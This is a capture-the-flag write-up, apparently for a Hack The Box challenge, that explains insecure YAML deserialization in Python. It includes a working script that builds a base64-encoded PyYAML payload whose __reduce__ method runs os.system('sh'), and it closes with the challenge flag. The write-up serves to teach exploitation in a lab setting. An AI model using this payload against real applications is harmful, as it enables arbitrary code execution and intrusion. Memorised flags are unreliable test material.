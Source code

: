 `ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICcxNScsIGF1dG9fY2FsaWJyYXRpb246ICdvbicsCiAgcHJvcHVsc2lvbl90ZW1wOiAnMzQzNCcsIHNvbGFyX2FycmF5X3RlbXA6ICcxMicsIHVuaXRzOiBmfQo=`

The function in question generates a base64 encoded string representing a serialized object. To provide some context, serialization is the process of storing an object, such as an array or class, in a database for later retrieval. When the application needs to access the object, it unserializes it, or loads it from the database using a function. This can improve the efficiency of Object-Oriented Programming.

It is important to note, however, that serialized objects should not be vulnerable to manipulation by users. If a user creates a malicious object, it could execute unwanted code. This challenge illustrates this point by presenting us with a serialized object and its corresponding base64 encoding. This is just one example of how serialized objects can be used, and it is essential to be aware of their potential risks.

Let's take a look at the next options. The application is requesting a base64 encoded string of a serialized object.

<img src="hijack3.png" alt="Demo"/>

Upon examining the serialized object provided by the application, I have determined that it is a YAML-formatted Python serialized object. This [article](https://net-square.com/yaml-deserialization-attack-in-python.html) serves as an excellent illustration of how attackers can leverage YAML-based exploits to execute arbitrary code.

Here is the script to generate a serialized object.

```python
import yaml
import os
import base64
class Test(object):
  def __reduce__(self):
    return (os.system, ('sh',))
serialized_data = yaml.dump(Test()) # serializing data
print(base64.b64encode(serialized_data.encode()).decode())
```

Let's grab the result and throw it to the application.

<img src="hijack4.png" alt="Demo"/>

Flag: `HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}`